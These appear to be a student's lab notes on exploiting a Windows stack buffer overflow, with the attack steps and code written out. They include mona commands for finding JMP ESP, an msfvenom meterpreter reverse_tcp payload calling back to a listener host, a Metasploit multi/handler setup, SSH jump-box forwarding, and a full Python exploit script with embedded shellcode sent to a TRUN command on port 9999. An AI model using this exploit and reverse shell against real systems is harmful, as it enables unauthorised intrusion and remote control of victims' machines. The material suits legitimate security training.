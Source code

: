 # From Immunity Debugger, bottom screen run !mona modules to find unprotected modules
	
# to find the JMP ESP
[Log Data Tab]
>!mona jmp -r esp -m
 Output:
	0x625012a0
	0x625012ad
	0x625012ba

# Build Reverse TCP Payload
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.40.22 lport=4444 -b "\x00" -f python

# Add the output to the script, all but the first line, add no op sled before the first line
buf += "\x90"*15 #no-op sled
	
[copy pasted tcp payload]

buf += b"\xd9\xee\xd9\x74\x24\xf4\xba\x0f\x0e\x78\x19\x5e"..
.
.
buf += b"\xd9\xee\xd9\x74\x24\xf4\xba\x0f\x0e\x78\x19\x5e"


# Execute the Exploit
>msfconsole
>use multi/handler
>set payload windows/meterpreter/reverse_tcp
>set LHOST 0.0.0.0
>set LPORT 4444
>explot
# Multi Handler is now listening


## Windows Buffer Overflow:
	ssh -MS /tmp/jojo student@10.50.20.235 [Jump Box, if window is closed closes all]
	ssh -S /tmp/jojo lol [will jump to Jump Box]
	ssh -S /tmp/jojo lol -O forward -D9050 [create a dynamic port forward]
	ssh -S /tmp/jojo lol -O forward -L<port>:<ip>:<port>


## Actual Script	
	#!/usr/bin/python2.7
	import socket
	ipaddr='10.50.37.222'
	port = 9999
	buf = "TRUN /.:/" #vulnerable command to exploit

	buf += "A" * 2003 #buffer offset to get to the eip
	buf += "\xa0\x12\x50\x62" #jump esp command run in the eip to jump to top of the stack



	''' Memory Addresses for JMP ESP
	0x625012a0
	0x625012ad
	0x625012ba
	'''

	buf += "\x90"*15 #no-op sled

	buf += b"\xd9\xee\xd9\x74\x24\xf4\xba\x0f\x0e\x78\x19\x5e"
	buf += b"\x29\xc9\xb1\x59\x83\xee\xfc\x31\x56\x15\x03\x56"
	buf += b"\x15\xed\xfb\x84\xf1\x7e\x03\x75\x02\xe0\x8d\x90"
	buf += b"\x33\x32\xe9\xd1\x66\x82\x79\xb7\x8a\x69\x2f\x2c"
	buf += b"\x9c\xda\x9a\x6a\x93\xdb\x90\x01\xfb\x12\x67\x49"
	buf += b"\xc7\x35\x1b\x90\x14\x95\x22\x5b\x69\xd4\x63\x2d"
	buf += b"\x07\x39\x39\xf9\x6c\x97\xae\x8e\x31\x2b\xce\x40"
	buf += b"\x3e\x13\xa8\xe5\x81\xe7\x04\xe7\xd1\x57\x1e\xaf"
	buf += b"\xc9\xdc\x78\x10\xeb\x31\xfd\x99\x9f\x89\xcf\xe6"
	buf += b"\x29\x7a\x1b\x92\xab\xaa\x55\x64\x6a\x9d\x9b\xc8"
	buf += b"\x6c\xe6\x9c\xf0\x1a\x1c\xdf\x8d\x1c\xe7\x9d\x49"
	buf += b"\xa8\xf7\x06\x19\x0a\xd3\xb7\xce\xcd\x90\xb4\xbb"
	buf += b"\x9a\xfe\xd8\x3a\x4e\x75\xe4\xb7\x71\x59\x6c\x83"
	buf += b"\x55\x7d\x34\x57\xf7\x24\x90\x36\x08\x36\x7c\xe6"
	buf += b"\xac\x3d\x6f\xf1\xd1\xbe\x6f\xfe\x8f\x28\xa3\x33"
	buf += b"\x30\xa8\xab\x44\x43\x9a\x74\xff\xcb\x96\xfd\xd9"
	buf += b"\x0c\xaf\xea\xd9\xc3\x17\x7a\x24\xe4\x67\x52\xe3"
	buf += b"\xb0\x37\xcc\xc2\xb8\xdc\x0c\xea\x6c\x48\x07\x7c"
	buf += b"\x85\xbe\x3f\x6a\xf1\xbc\x3f\x83\x5d\x49\xd9\xf3"
	buf += b"\x0d\x19\x76\xb4\xfd\xd9\x26\x5c\x14\xd6\x19\x7c"
	buf += b"\x17\x3d\x32\x17\xf8\xeb\x6a\x80\x61\xb6\xe1\x31"
	buf += b"\x6d\x6d\x8c\x72\xe5\x87\x70\x3c\x0e\xe2\x62\x29"
	buf += b"\x69\x0c\x7b\xaa\x1c\x0c\x11\xae\xb6\x5b\x8d\xac"
	buf += b"\xef\xab\x12\x4e\xda\xa8\x55\xb0\x9b\x98\x2e\x87"
	buf += b"\x09\xa4\x58\xe8\xdd\x24\x99\xbe\xb7\x24\xf1\x66"
	buf += b"\xec\x77\xe4\x68\x39\xe4\xb5\xfc\xc2\x5c\x69\x56"
	buf += b"\xab\x62\x54\x90\x74\x9d\xb3\xa2\x73\x61\x41\x8d"
	buf += b"\xdb\x09\xb9\x8d\xdb\xc9\xd3\x0d\x8c\xa1\x28\x21"
	buf += b"\x23\x01\xd0\xe8\x6c\x09\x5b\x7d\xde\xa8\x5c\x54"
	buf += b"\xbe\x74\x5c\x5b\x1b\x87\x27\x14\x9c\x68\xd8\x3c"
	buf += b"\xf9\x69\xd8\x40\xff\x56\x0e\x79\x75\x99\x92\x3e"
	buf += b"\x86\xac\xb7\x17\x0d\xce\xe4\x68\x04"


	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((ipaddr, port))
	print s.recv(1024)
	s.send(buf)
	print s.recv(1024)
	s.close()

